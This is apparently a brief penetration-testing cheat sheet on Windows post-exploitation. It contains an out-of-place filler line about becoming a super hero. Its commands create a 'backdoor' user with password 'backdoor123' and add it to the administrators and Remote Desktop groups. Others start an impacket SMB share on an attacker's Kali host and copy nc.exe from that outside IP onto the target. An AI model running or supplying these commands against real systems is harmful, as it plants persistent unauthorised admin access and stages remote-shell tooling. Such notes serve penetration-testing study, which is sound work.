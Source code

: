 # Windows Enumeration

## Enumeration Scripts

Becoming a super hero is a fairly straight forward process:

## Windows Post Exploitation

### Create Backdoor User <a id="backdoor_user"></a>

```text
net user backdoor backdoor123 /add
net localgroup administrators backdoor /add
net localgroup "Remote Desktop Users" backdoor /add
```

### Spin up SMB Share on Kali

`impacket-smbserver SMBSHARE ./`

#### Connect to share from windows

copy \\10.11.0.53\SMBSHARE\nc.exe





